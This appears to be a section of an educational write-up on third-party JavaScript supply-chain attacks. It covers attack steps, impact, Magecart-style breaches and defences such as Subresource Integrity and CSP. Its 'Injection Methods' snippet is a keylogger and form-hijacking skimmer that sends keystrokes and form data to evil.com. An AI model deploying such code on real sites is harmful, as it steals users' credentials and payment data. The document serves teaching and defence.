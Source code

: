 ### Attack Process
1. **Dependency Analysis**: Identify third-party dependencies
2. **Vulnerability Discovery**: Find compromisable resources
3. **Code Injection**: Inject malicious JavaScript
4. **Data Exfiltration**: Steal sensitive information

### Injection Methods
```javascript
// Malicious code injection example
(function() {
    // Keylogger
    document.addEventListener('keypress', function(e) {
        fetch('https://evil.com/log?key=' + e.key);
    });
    
    // Form hijacking
    document.querySelectorAll('form').forEach(form => {
        form.addEventListener('submit', function(e) {
            fetch('https://evil.com/steal', {
                method: 'POST',
                body: new FormData(form)
            });
        });
    });
})();
```

### Impact
- **Data Theft**: Steal user credentials and sensitive data
- **Session Hijacking**: Compromise user sessions
- **Malware Distribution**: Distribute malicious software
- **Phishing**: Redirect users to fake login pages
- **Cryptocurrency Mining**: Use victim's resources for mining

### Detection Techniques
- **Subresource Integrity (SRI)**: Verify resource integrity
- **Content Security Policy (CSP)**: Restrict resource loading
- **Static Analysis**: Analyze JavaScript code changes
- **Runtime Monitoring**: Monitor JavaScript behavior
- **Network Monitoring**: Track resource loading patterns

### Real-world Examples
- **British Airways Attack**: Magecart group compromise
- **Ticketmaster Breach**: Third-party chat widget compromise
- **Newegg Attack**: Payment page skimmer injection

### Prevention Strategies
- **Subresource Integrity**: Implement SRI for all external resources
```html
<script src="https://cdn.example.com/lib.js" 
        integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
        crossorigin="anonymous"></script>
```
